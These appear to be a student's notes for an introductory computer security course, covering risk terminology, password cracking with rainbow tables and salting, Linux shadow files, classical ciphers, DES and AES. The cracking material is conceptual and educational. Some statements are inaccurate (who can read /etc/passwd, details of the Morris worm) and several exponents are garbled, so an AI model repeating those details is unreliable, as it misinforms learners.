



Introduction to Computer Security
2 Features of Computer Security
There is no such thing as absolute computer security. If we want to know whether a system is secure, there are many questions to ask.
- Security, in which aspects?
- Secrecy
- damage prevention
- ensure services are available
- Security from whom? All people or differentiate users?
- It is harder to achieve different levels of security from different users.
- Security to what level? Trade off between cost and performance
- To achieve a higher level of security
- more investment
- more performance degradation
Part of the reason why there is no 100% security is because there are too many security issues to consider. We can’t achieve 100% – the aim is to reduce as much as possible.
Theory is not the same as practice. Security is not just about theory but also:
- Implementation. How the program is written. Is it accurately implementing theory?
- Deployment. Private or public server? How can user input be transferred safely to servers?
- Maintenance. Frequent security patches are needed.
- Parties involved. Who uses the system and what is their security behaviour? Parties involved have to have secure habits.
- Location. Where is the system used? Private or public domain?
- Temptation. How tempting is the asset? There will always be black hats trying to attack the system.
Beautiful cryptography can be regularly compromised by bad implementations (human error).
CIA Triangle
A security model that defines three key aspects that should be guaranteed at all times
- Confidentiality. No unauthorised disclosure
- Integrity. No unauthorised change
- Availability. Users are not denied access to resources or have unwarranted delay

Case studies
Malware - The Morris worm
Robert Morris tried to measure the size of the Internet. The worm could get into a computer through rsh, generate a process and invoke the OS commands to obtain certain information about the network.
Worm vs Virus
Similarities. Both self-replicate rapidly and negatively affect a computer.
Differences.
- Virus – has to replicate into a host program/other executable code to infect a computer and have an impact
- Worm – standalone, doesn’t need a host program.
Denial of service - takes on Georgian blogger
Attackers sends a massive number of requests to access the service sites so that the sites are too busy to serve the requests from the genuine users
Hacktivism
Used as a protest action against governments/institutions.
Anonymous took down US government websites: White House, Department of Justice and FBI. Music sites like Universal Music was targeted too. Coordinated, decentralized, very effective.
Social engineering
Hacking a system doesn’t involve technical skills
- Happens by exploiting people’s trust
- Con people into divulging personal info such as passwords
- No technical skill, just social skills
- Kevin Mitnick - notorious hacker in the 80s to 90s, wrote the Art of Deception book.
Physical security
Russian programmer taken hostage in 2010. People can be threatened, physical locations can be breached, dumpsters can be dived!
This is why we say there is no such thing as 100% Com Sec.
Basic Terminology
Before we dive into risk analysis methods, we will cover basic terminology in security.
Asset
Anything we value enough so that we want to protect it
Examples:
- Customer database, web page, source code or executables of programs
- Laptop, mobile phone, staff, customers, consultants.
- Company reputation
Vulnerability
A flaw or weakness in a system’s design, implementation, or operation and management that could be exploited to violate the system’s security policy.
Examples:
- Weak passwords
- Program bug
- New employee doesn’t understand the security policy
Threat
A potential for violation of security, which exists when the attacker has the capability and intention to breach security
Threat = capability x intent
Examples
- A hacker discovers a new way to exploit a vulnerability and writes a virus
Evaluation models of threat (Microsoft STRIDE)
| Threat | Security Aspect |
|---|---|
| Spoofing | Authentication |
| Tampering | Integrity |
| Repudiation | Non-repudiation - the assurance that no one can deny the validity of something (data, service etc.) |
| Information disclosure | Confidentiality |
| Denial of Service | Availability |
| Elevation of Privilege | Authorisation |
Risk
An expectation of loss expressed as the probability of an actual attack a threat will exploit a vulnerability with a harmful result.
Risk = probability x harm = threat x vulnerability x harm
Example:
- Risk of your laptop being trampled by an escaped rhino is small
- Risk of leaving your laptop on the bus could be quite high.
Here is a case study for analysing the threat and risk.
Attack
An assault on security that derives from a threat. A threat that has been realised
Active attack: Crashing a website through DOS
Passive attack: Eavesdrop on the network traffic
Social engineering attack is another type of attack that just requires social skills, no technical skills.
Countermeasure
An action that reduces a threat, vulnerability, harm, or by eliminating or preventing the attack or by detecting the attack and reacting with corrective action. Anything that will reduce the violation of the security.
Examples:
- Prevention: firewall, passwords, encryption, backup, training staff etc.
- Detection: Intrusion detection system
- Reaction: Login systems that lock users out after 3 failed attempts.
Trust
“It is impossible to design a security system that is devoid of trust; we have to trust something. Even the person who writes his own security software has to trust his compiler and computer.”
– Bruce Schneier, Secrets and Lies.
Trust is used in many contexts, trusted user, trusted third party, trusted host, trusted systems
- Security policy for trusted users will be different than other users
- Trust relationship limits our responsibility
- When we design security mechanism/policy, we will think threat will not come from these trusted entities - so we do not need to think about how to defend against them
- Affects our view of threat and thus the countermeasures we employ
- Trust is also a valuable business asset - it is something that a business would want to protect and maintain.
Risk Analysis
Informal risk analysis.
- Identify (value) assets.
- Identify vulnerabilities
- Identify threats
Qualitative analysis
Checklist Method
Examples: the DREAD model by Microsoft:
Damage - how bad would an attack be?
Reproducibility - how easy is it to reproduce the attack?
Exploitability - how easy is it to launch the attack?
Affected users - how many people will be impacted?
Discoverability - how easy is it to discover the threat?
Mathematical Method
One example of a mathematical method of analysis is Fault Tree Analysis.
You basically list the possible events that can occur , and list the possible causes of it – until the most basic cause.
# If its listed it represents there is an OR relationship,
# otherwise an AND relationship is explicitly stated (last line)
# Usually, this is a drawn diagram but I'm lazy.
Car Won't Start:
Electrical Fault:
- Broken Wire
- Starter Faulty
Control Status:
- Foot on brake & In Park
This can only tell us the probability an attack will occur. Afterwards, we still have to determine the amount of harm that it will cause, and we will get some form of measurable risk.
Analysing Security Incidents
Key questions to ask are:
- Who is doing it?
- Motivation
- What is the damage - which aspect of security is breached?
- Not all about divulging secrets
- Also include DOS, integrity, reputation loss
- What should system security encompass?
- What elements can be considered to avoid the incident?
Example of analysis. DoS – Case study 2
Who is doing it? - Russian government allegedly
Motivation? - Prevent criticism
What damage? - Availability
What should system security encompass? - Service provider should have resources available to serve genuine users.
Example of analysis with terminology. Morris Worm.
The Case. 1988 - Robert Morris exploited a program bug to write a “worm”.
- Considered the first computer “worm” on Internet
- Not intend to cause damage, but to measure the size of Internet
- Get into a computer through rsh*, generate a process and invoke the OS commands to obtain certain information about the network
- Gradually slow down the computer to be completely useless
- Computers on the network can be infected rapidly
Outcome. Rapidly infected 10% of all machines on the Arpanet. Caused the estimated damage of $100 million.
Analysis.
- Asset: The computers on the Arpanet
- Vulnerability: rsh comment loophole in Unity OS
- Threat: Robert has the capability because he discovered the loophole. He had the intent because he wrote the program to make use of the loophole
- Attack: Robert ran the worm, and it replicated itself rapidly across the Arpanet
- Risk: (probability x harm) (10% of all machines) x (Money loss) because of computer slowdown.
- Countermeasure: Robert was charged in court. Applied security patch for the rsh loophole.
Authentication
Why Authentication?
The general intention of computer security is to prevent unauthorised access and to ensure authorised users can access systems quickly.
First step of control is to identify who a user is (Identification) and verify this identification (authentication)
- Identification: Identity by username
- Authentication: a process of verifying if the users are really who they claim they are
Passwords
A basic but very useful authentication method
invaluable first line of security defence
easy to use and implement
The Problem with Passwords
- Weak passwords (People set weak passwords)
- People often repeat passwords for different accounts
- Even if people have good password habits, some sites store passwords in plaintext
- Some sites allow unlimited login attempts
- Some sites/systems don’t salt passwords – makes it easy to crack with computers.
People’s tendency in setting passwords
- According to one survey, 12% of employees used “password” as their password
- Password length is short
- 1/4 of hashed passwords were cracked using a dictionary and combinations of the username.
- Around 12% use dictionary words
- 81% use alphanumeric passwords
User Overload
- On one hand, we should not set simple passwords but should set different passwords for different accounts
- On the other hand, we have many different accounts
- Microsoft studied users’ password behaviour
- The average user has 25 password accounts
- But the average user has 6.5 different passwords.
- Microsoft studied users’ password behaviour
Edmund shared an XKCD the other day that summarises the problem with passwords.
Password Cracking
The time taken to crack a password with brute force depends on the number of combinations, \(\text{Let length = L, and character set size = W} \\ Total \; Combinations= W^{L}\)
| Password | Combinations (C) |
|---|---|
| 26 characters - length 4 | 264 = 456,976 |
| 52 characters - length 4 | 524 = 7.3 × 106 |
| 94 characters - length 8 | 948 = 6.1 × 1015 |
Cracking Speed
Indicative speeds using current tools like hashcat or John the Ripper
| Hash | Using | Speed |
|---|---|---|
| MD5 | Good PC | 107 guess/second |
| SHA256 | Good PC | 106 g/s |
| MD5 | PC + Graphics Card | 1010 g/s |
| SHA256 | PC + Graphics Card | 109 g/s |
With a GPU cluster, passwords can be cracked even faster – heavily depends on hardware.
Expected time to crack a password, \(Time = (Total\; Combinations)/Speed\)
Password Strength
Often expressed as an entropy value, x – the number of bits needed to represent WL.
Therefore, \(x = log_2W^L\).
Examples:
\[Entropy = 2 \times log_226 \approx 2 \times 4.7 = 9\] \[Entropy = 4 \times log_252 \approx 4\times 5.7 = 22.8\]Human Generated Passwords
While entropy measures the “uncertainty” of a password - it is the maximum level of uncertainty. However, humans don’t choose random passwords; they use words or a pattern of characters - much less uncertainty in user-generated password. This leads to some reasons behind certain password cracking techniques like look-up tables, which we will look at in the next chapter.
Password Hashing
We should never store passwords in plaintext. Instead we store the hash:
- Hash is generated by a one-way hash function
- Hash function produces a fixed length hash value from the input
- Hashes are not meant to be reversible. Easy to compute f(x) but very hard to compute x from f(x).
- If the input changes by even a bit - the resulting hash should be completely different
- Hash function types: MD5, SHA256, SHA512 etc…
Other Authentication Methods
Passwords are just one way of providing authentication, what other methods are there?
Biometrics. Does not have a clear cut yes or no - there is room for false negatives or even false positives (which are worse).
Here are some statistics on the various non-password authentication methods
| Biometric | False Pos | False Negative |
|---|---|---|
| Face | 1% | 10% |
| Fingerprint | 1% | 0.1% |
| Hand Geometry | 2% | 0.1% |
| Iris | 0.94% | 0.99% |
| Retina | 0.0001% | 0.2% |
| Keystrokes | 7% | 0.1% |
| Voices | 2% | 10% |
Password Cracking
Methods
There are a few different methods for cracking a password hash:
- Brute force attack - not the most efficient approach
- Dictionary attack - tries likely words, short passwords, dictionary lookup. Is likely to have a good chance of success on many systems.
- Look-up tables - precomputes the hash values of a large number of passwords.
- Reverse Look-up tables - uses hash chains to reduce the storage space
- Rainbow tables - an improvement on look-up tables as it reduces chain collisions
We will go through each method
Brute Force and Dictionary Attacks
The simplest way to crack a hash, here are the steps/outline:
- Guess password
- Hash the guess
- Check if the guess’ hash equals the given hash
- If the hashes are equal, the guess is the password.
- If not go back to step 1.
As you can tell this is the slowest method but easiest to implement.
Brute Force Attacks
- try every possible combination of characters
- very computationally expensive, the least efficient
- will eventually find the password after a long time (longer if passwords are more complex and longer)
Dictionary attacks
- Uses a file containing words, phrases, common passwords, and other string that are likely to be used as a password
- Theses dictionary files are constructed by extracting words from large bodies of text, and even from real databases of passwords.
- Further processing is often applied to dictionary files, such as replacing words with their “leet speak: equivalents (hello = h3110)
Lookup Tables
In Brute force/dictionary cracking a password is hashed every single time before being guessed.
What look-up tables do is that it pre-computes the hashes of the passwords, store the hashes and the corresponding passwords in a look-up table.
When given a hash, it looks up the table for the matching password - basically dictionary but precomputes hashes. More efficient.
Reverse Lookup Tables
Problem with Dictionary Attack and Lookup Tables
- Stores all password possibilities in a large database
- Not efficient for long passwords (too much storage)
What Reverse Lookup Tables do
- sacrifice time for storage
- works better for long passwords
Does this using a technique called hash chain.
Hash Chain
Firstly, we have to define a reduction function, R, that maps hash values back into a password, not the original password (it isn’t an inverse of the hash function) but just some other password that fits a certain criteria.
This criteria is that the password must belong to a domain in P where it is the set of all combinations of length L characters in a character set W. Example, if we want to crack all passwords of length 5, consisting of the characters from the character set [ABC…XYZ0123456789], then P is the set of all combinations of 5 characters from this character set.
The only requirement for reduction function is to return a value in P, other than that it can be anything.
Let’s say our starting password is “random”. We hash it with the hash function that we are targeting, so MD5, SHA256, etc., then we reduce the hash with R. We do this as many times as we want (this is usually a calculated amount based on how long we expect/want to spend).
Hash: "random" -> "7ddf32e17a6ac5ce04a8ecbf782ca509"
R: "7ddf32e17a6ac5ce04a8ecbf782ca509" -> "ienw3"
Hash: "ienw3" -> "b9322e367ad002d5adf7ca60b8b61e86"
... (1000 times) ...
Hash: "o1gti" -> "27aa4cbd3653a4617e0aec76ba3af9a4"
How RLT saves space
Many passwords and hashes are generated in the hash chain, but because we have the R function and H function we only store the start and end passwords (lecture notes). Some sources online say that the start password and the end hash is stored.
To use this table, lets say we have an input hash taken from a compromised user password database “b9322e367ad002d5adf7ca60b8b61e86”. If we stored the end hash, then what we can do is to first check if this password exists in the table – meaning we are extra lucky and we save loads of time.
Otherwise, if it doesn’t exist or we use the system of storing end passwords (because the probability of finding the end hash immediately is very low) we do the following
- Apply the R function on hashes and H function on passwords.
- Check if the resultant password/hash (depending on which system you use) exists in the table.
- Repeat from step 1 until a set limit N (i.e 1000) or until we find a match.
If at any point we observe a match:
- We can get the corresponding start password (from the look-up table) and use it to recreate the chain
- There is a good chance that the chain will contain the given hash h
- If so, the password immediately preceding h in the chain is the matching password
False Alarms
The reduction function we have defined does not represent a 1 to 1 relation between the hash and the password – 2 different hashes when going through the (R) may give the same output.
This is the main problem with RLT – hash chain collisions that we call false alarms.
Example. Both following chains contains p2; all info after p2 in both chains will be the same
Chain 1: \(p1-> h1 -> p2 -> h2 -> p3 -> h3 -> p4\)
Chain 2: \(p’1 -> h’1 -> p’2 -> h’2 -> p2 -> h2 -> p3\)
Chain collision wastes space for the attacker
- this is because after a certain $p_n$all following passwords in both chains will be the same
- if this chain was in the 10,000, a majority will be the same (wastes space!)
Rainbow Table
Rainbow tables are designed to reduce chain collisions or false alarms. It does this by using different R functions in different reduction stages when generating the hash chain to reduce the probability of chain collisions.
The collision between chain 1 and chain 2 is reduced.
Chain 1: \(p1 -> h1 –(R1)-> p2 -> h2 –(R2)-> p3 -> h3 –(R3)->p4\)
Chain 2: \(p’1 -> h’1 –(R1)-> p’2 -> h’2 –(R2)-> p’’2 –> h’’2 –(R3)-> p’3\)
Cracking passwords in Rainbow Table
Given a hash, $h$, the reduction functions must be applied in the right order when creating the chain.
Lets say we have $k$ reduction functions, anyone of them can be applied first to the given hash.
Assume $R_k$ is first applied to the given hash:
The order of R functions applied is: \(h \;–(R_k)\rightarrow p’1 –(R_1)\rightarrow … –(R_2)\rightarrow, …, –(R_{k-1})\rightarrow …\)
If password not found, means $R_k$ was not the first R function to be applied. Proceed to assume $R_{k−1} $is first applied.
\[R_{k-1}, R_k, R_1, …, R_{k-2}\]If password not found, continue so on and so forth, until finally $R_1 $is first applied:
\[R_1, R_2, R_3, …, R_{k-1}, R_k\]If the password still cannot be found after this, we say that the password of the given hash is not embedded in the rainbow table, and we are not able to find it.
Additional resources on reverse lookup tables and rainbow tables
Defence
There is no way to prevent brute-force or dictionary attacks.
But we can use password salts to make lookup table, reverse lookup and rainbow tables attacks less effective.
Password Salt
A salt is a randomly generated number. The salt and the password are connected and used by the hash function to generate hash: \(h = Hash(password+salt)\) Both h and the corresponding salt are stored in the password file.
Login verification
When a user enters a password during the login
- Obtain the salt value used to generate the hash for the user
- Connect the input password with the salt
- Generate the hash of this input and compare it with the stored hash.
How does salting help defend against table attacks?
In order for the lookup table attack to succeed, an attacker needs to precompute the tables.
Since salt is used, we precompute and store the hash of a password for each possible salt value, which increases the possible combination of passwords + salts that we have to pre-compute in our lookup tables by a lot.
Additionally because the salt is not user generated it is more unpredictable as well.
For password p, precompute and store: \(Hash(p+salt_1), Hash(p+salt_2),..., Hash(p+salt_n)\)
When the salt is large (e.g. 48bits), the required storage space will be too big for the attack to be worthwhile.
In order to precompute reverse and rainbow tables, an attacker needs to generate many chains for the same password because it has to consider each possible salt.
How are hashes stored in Linux?
TLDR. When a user is created their info is stored in the
/etc/passwdfile and their hash + salt is stored in theetc/shadowfile. Only the user can readpasswdand only root can readshadow.
It is likely that you won’t need the below information for your exam, they were from my notes mainly for the coursework but I thought I’d put it up anyways.
When you create a new user in Linux, Linux creates an entry in the /etc/passwd and the /etc/shadow files:
Entry in /etc/passwd
This file can be read by an user. The entry created in passwd file, it contains a number of fields which are separated by colon (:).

- Username - used when user logs in.
- Meant for storing ha but hash is typically not stored in /etc/passwd, but in the file /etc/shadow. An x character indicates that the hash is stored in
/etc/shadow. - User ID (UID) - UID 0 is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
- Group ID (GID) - The primary group ID (stored in
/etc/groupfile) - General Info on User - The comment field. It allows you to add extra information about the users such as user’s full name, phone number etc. This field is used by
fingercommand - Home directory - The absolute path to the directory the user will be in when they log in. If this directory does not exist then user’s directory becomes
/ - Command/shell - The absolute path of a command or shell (
/bin/bash). Typically, this is a shell. Please note that it does note have to be a shell. For e.g.,sysadmincan use thenologinshell, which acts as a replacement shell for the user accounts. If shell is set to/sbin/nologinand the user tries to log in to the Linux system directly, the/sbin/nologinshell closes the connection.
Entry in /etc/shadow
Shadow can only be read by root user. This is how the hash looks like:
$6$JVGtK2Il$/s.5q4M1WN/ekw2rM26OHId9TPELOcPMmHG.E7zCzSbalzVPgPPGUIB7f7/2mTfj/Lg3RgoKhAkcsBDkJGAN.1:18554:0:99999:7:::
If the hash is a * - means that the account is disabled.
! or !! means that the account is locked
A blank entry means that a password is not required to log in.
The number between 1st 2 dollar signs represents the hash function used by the OS - here 6 represents SHA512.
The characters between the 2nd and 3rd dollar sign is the salt.
All the subsequent bits up till the colon (:) - is the generated hash for the password
Last part (after the colon)
:18554:0:99999:7:::
- The time the password was generated
- The minimum number of days between authorised password changes. If we set it to be 0, password can be changed immediately. If we set it to 7, we have to use password for 7 days.
- The maximum number of days a password can last for (compulsory to change after the set number of days)
- The number of days in advance the system will give you a warning to change password
Unix password protection
Unix system may set the local rules for setting passwords. For example, it can set the length that password must have, number of upper or lower cases, or even symbols.
- Time before password can be changed or must be changed
- Salt used (pseudo-random)
- Type of Hash can be changed as well
These are all ways Unix tries to protect passwords.
Cryptography
Terminology
- Plaintext, the original message
- Ciphertext , the result of encrypting the message
- Encryption/decryption , the process of transforming plaintext to ciphertext (or reverse)
Different types of encryption
Secret key:
- The key is a secret, only known to the communicating parties
- The same key is used for encryption and decryption
Public key:
- Use a key to encrypt the message
- This encryption key can be publicly known
- User another key to decrypt the message
- The decryption key is kept private
- Clever maths are used
Encryption Technique Properties
Good encryption techniques should have 4 properties
-
Confusion
- If we change a bit/a letter of they key, multiple parts of the ciphertext will change
- hide the relationship between ciphertext and key
-
Diffusion
- If we change a bit/a letter of the plaintext, then half of bits of the ciphertext should change
- Spread the statistical structure of plaintext over multiple parts of the ciphertext
- hide the relation between plaintext and ciphertext
-
Cipher text is hard to break even with the most generous assumptions
- Know the encryption process - so no “security through obscurity”
- know the initial settings (e.g. key length, block length)
- as long as the key is secret the ciphertext is still secure
-
Management of the encryption scheme must be feasible and cost-effective
- Long key may be very secure - but how can it be manged?
Secret key encryption
Also known as symmetric key, shared key, single key encryption.
Modern “standard algorithm”:
- First was the Data Encryption Standard (DES)
- then the Advanced Encryption Standard (AES)
How it works.
- A secret key is shared by sender and receiver.
- This secret key is used together with a known public algorithm (like AES)
- The ciphertext is transmitted
- The receivers decrypt the ciphertext with the known algorithm and the secret key to get plaintext.
Techniques of Encryption
There are many different encryption techniques, some better than others.
Steganography
Steganography is a means of hiding an encrypted message.
- Often when an encrypted message is sent, it is suspicious because it is unreadable.
- Steganography is used to hide the encrypted message in something unsuspicious.
Steganographic Process
(cover medium) + (hidden data) + (stegano key) = stegano medium
- cover medium: the file in which we will hide the hidden_data
- hidden data: may be encrypted using stegano key or another key
- stegano medium: is the file we send.
The cover medium (and thus stegano medium) are typically image or audio files.
Hiding data in an image
Images typically used either 8-bit or 24-bit colour
Lets take 24-bit colour as an example:
- Each pixel is represented by three bytes
- Each of the three bytes representing the intensity of the three primary colours red, green, blue (RGB)
Using Least Significant Bit (LSB) insertion - we can hide data in the image.
LSB Insertion
Uses binary representation of the hidden_data to overwrite the LSB of each byte in the cover_image
If we are using 24-bit colour, the amount of change will be minimal and indiscernible to the human eye.
Example.
Given three pixels:
- 10010101 00001101 11001001
- 10010110 00001111 11001010
- 1001111 00010000 11001011
We can hide the 9 bits of data in the above three pixels:
- 10010101 00001100 11001001
- 10010111 00001110 11001011
- 10011111 00010000 11001011
Hidden message is: 101101101
Code Words
Define code for each vocabulary in a code book which is like a dictionary. You lookup the dictionary to decipher the code word.
Transposition/Permutation Cipher
Confusion
Re-arrange plaintext into columns/rows of a fixed length and then send the message read the other way
Plaintext: HISECRETMESSAGE
Rearrange: H E E E A
I C T S G
S R M S E
Ciphertext: HEEEAICTSGSRMSE
Letters are the same, but in a different order. The shared secret is knowing what permutation is carried out. This rearrangement can be done any number of times.
A more confusing version of this is double transposition, where your rearranged plaintext uses a code word and a number to decide how the text should be rearranged further. In the example below, we have rearrange the grid of letters from the first round according to the numbers specified (if there are not enough letters in the column to fill the row, you just continue with the next column).
Codeword: C A K E S C A K E S
Number: 2 5 1 4 3 2 5 1 4 3
H E E E A ------> E T M H I
I C T S G S A G E E
S R M S E S S E C R
Monoalphabetic Substitution Cipher
Confusion
If you are familiar with the caesar cipher – this is it. Basically have a ciphertext alphabet, where each symbol maps to the normal alphabet.
Not the best technique because there is a linear relation between the letters/symbols and attackers can easily figure out the encryption key.
Supposed A … Z = 0 … 25, then y = x + a mod 26 (a is the encryption key)
Another way is to use a keyword e.g. “zebras”
Plaintext alphabet: ABCDEFGHIJKLMNOPQRSTUVWXYZ
Ciphertext alphabet: ZEBRASCDFGHIJKLMNOPQTUVWXY
Disadvantage. There is no “linear relation” but a long ciphertext can be easily cracked by frequency analysis.
Frequency analysis relies on the fact that some letters are used more than others. By counting the letter frequency of a certain symbol in the ciphertext, someone can make an intelligent guess on which letter in the alphabet it represents.
To prevent this, multiple ciphertext alphabets are used…
Polyalphabetic Substitution Cipher
Confusion
A key is used to decide which ciphertext alphabet is applied in each substitution. An example is the Vigenere cipher. Here is table that works together with the vignere cipher.
| A | B | … | Y | Z | |
|---|---|---|---|---|---|
| A | A | B | … | Y | Z |
| B | B | C | … | Z | A |
| … | … | … | … | … | … |
| Y | Y | Z | … | W | X |
| Z | Z | A | … | X | Y |
Using this table, and a secret key: abattis – we check the cell that corresponds to the pair (Plaintext_letter)(Key_symbol) = Ciphertext Symbol
Plaintext: EXAMPLE
Keystream: abattis
Ciphertext: EYAFITW
Disadvantage. Still has the same statistical flaw for the letters that use the same key alphabet. This can be mitigated by using a longer keyword and is the most secure (in theory) if the key is the same length as the plaintext.
One time pad
This is where each letter in the message is encrypted with a different alphabet set. This is as secure as you can get but the problem lies with how the key is shared as both parties have to know the key which is as long as the plaintext.
Disadvantage. As a result, one time pad is not a practical solution because of key generation, key distribution, key protection.
Combining message and key
In a computer, plaintext and the key are an arrangement of bits. The best way to combine them is to use bitwise XOR.
- Bitwise operations are not as computationally expensive as addition operations. (If you study 132, 1 just needs a logic gate, the other needs an entire adder/subtractor).
- AND and OR are not good as they do not produce unique encryption – so they are not good for decryption.
XOR on the other hand produces a unique encryption - using XOR, ciphertext can be decrypted by performing XOR over ciphertext and key. So it is very easy to encrypt and to decrypt, you just need the key.
Data Encryption Standard (DES)
The first standardised encryption method. Is based on the Feistal approach.
- Uses block cipher: 64-bit plaintext block size.
- Uses a 56-bit secret key (technically 64-bit, but the 8th bit of each 8-bits are parity bits which are dropped after the permutated choice 1)
- Goes through 16 rounds of encryption operations per block
- Uses substitution (confusion)
- Uses permutation (diffusion)
- Encryption operations are all public - but it is still hard to crack because the secret key is safe.
Block Cipher. Encrypts blocks of data one a time (DES)
Stream Cipher. Encrypts each input element (bit or byte etc.) one at a time, producing the machine output element as the process goes along.
Fiestal Approach Overview

{kind=link}
- Plaintext block is split into two equal parts (L0 and R0), each of 32 bits.
- Run one side of (i.e R0) through a “feistal” function that is fed a key, K0.
- The output of the function, R0K0, is XORed with the other half (L0).
- The output of this XOR is used as the input for the round function of the next round, while the initial R0 will be XORed with this 2nd round function output.
- This continues for a total of 16 rounds, where the final blocks are the ciphertext.
A characteristic of all Feistal ciphers is that the process for decryption follows the exact same steps as encryption – only thing is that the round keys need to be used in the reverse order.
Each round this is computed: \(L_{i+1} = R_i, \; R_{i+1} = L_i \oplus F(R_i,K_i)\)
The Round Function
There are 4 operations in the function
- Expansion
- 32 bits half-block is expanded to 48 bits by duplicating half of the bits
- 32 bits organised into 8 pieces each with 4 bits
- Duplicate the first and fourth bit in each piece
- 32 bits half-block is expanded to 48 bits by duplicating half of the bits
- Key Combination
- The output of the expansion is XORed with the current round key, Ki
- Substitution
- The result of the XOR is broken into 8 6-bit pieces and each is passed through a unique substitution box or S-Box
- This uses the vectorial boolean function to convert 6-bit input to a 4-bit output
- There is a lookup table to store the mapping from 6-bit input to 4-bit output
- E.g. 101100. The bits in bold is the row name and the bits in between is the column. The cells in the lookup table specify the final substitution value that becomes the output. Refer to the table below.
- Permutation
- The result of that is passed through a permutation function P (diffusion)
In each row, the lookup table cell values will are unique – meaning row-wise the values are from 0-16 (because 24 bits) but is not in order.
| -0000- | … | -1111- | |
|---|---|---|---|
| 0xxxx0 | 14 | … | 7 |
| 0xxxx1 | 0 | … | 8 |
| 1xxxx0 | 4 | … | 0 |
| 1xxxx1 | 15 | … | 13 |
Subkey Generation (Key Schedule)
We said that the DES takes 1 64-bit key, but from the Feistal Diagram above we see that each round function takes a different key – this is because subkeys are generated with permutation functions.

{kind=link}
Permuted Choice 1
This function has 2 purposes:
- To drop the 8th bit of each of the eight 8-bit blocks, as they are the parity bits
- Permute the remaining bits (56)
After PC1 is done, the generation of the DES round keys (keys for each round function): In each round
- The key is split into two 28-bit halves.
- Each half is shifted left by a set amount that may vary per round but will always be the same for encryption or decryption.
- The shifted halves are permuted with PC2 – shuffle and select 48-bits from 56-bits (28 × 2)
- The shifted halves are also transferred to the next round where they are shifted again (the shifts are cumulative).
Permuted Choice 2
As mentioned above, the algorithm takes a 56-bit subkey as input and produces a 48-bit round key for each round function.
FYI. Each bit of the initial 56-bit key is used in an average of 14 of 16 round keys.
Advanced Encryption Standard (AES)
The DES is now considered to be insecure due to the short key – it has been broken by brute-force methods.
The AES is chosen as the new standard. Compared to DES it has a longer block size (128-bits), longer key (variable: 128, 192, or 256 bits) and faster implementation (only uses 1 S-box, while DES uses 8 distinct ones)
Similar block cipher features but uses a substitution-permutation network (SPN) – mainly operations over matrices which is designed for more inherent parallelism and hence faster.
Sub-Operations
Encryption in AES uses 4 main operations. In the main rounds (not every round but most rounds) of encryption they are applied in the following order:
input -> SubBytes -> ShiftRows -> MixColumns -> AddRoundKey -> ouput
There are additional details, like the key scheduler for AES, which are not covered in the lectures and further reading can be done here. Wikipedia is a good resource too.
SubBytes
This involved splitting the input into bytes and passing each through a Substitution Box (S-box). Unlike the DES, the AES uses the same S-box for all bytes.
